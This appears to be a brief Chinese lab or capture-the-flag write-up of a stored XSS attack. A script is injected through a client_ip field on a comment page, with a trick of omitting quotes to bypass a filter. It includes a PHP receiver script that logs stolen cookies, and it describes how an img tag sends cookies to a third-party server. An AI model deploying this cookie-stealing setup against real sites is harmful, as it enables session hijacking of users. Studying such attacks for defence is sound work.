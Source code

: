 ```php
//getcookie.php
<?php  
$cookie = $_GET['cookie'];  
file_put_contents('cookies.txt', $cookie . "\n", FILE_APPEND);  
?>
```

留言页面从client_ip获取ip时注入XSS，script代码执行。注意src可以不写”“。所以绕过’‘”的方法就是不写'"

​![image](assets/image-20240926235957-73ch7ez.png)​

script请求了第三方服务器的js文件，js代码执行将img标签写入页面，img渲染时请求，并将cookie以get方式携带出去。

​![image](assets/image-20240927000623-9sjr14n.png)​

在第三方服务器接收get请求，并将cookie值写入文件。

​![image](assets/image-20240927000640-xqa67bd.png)​
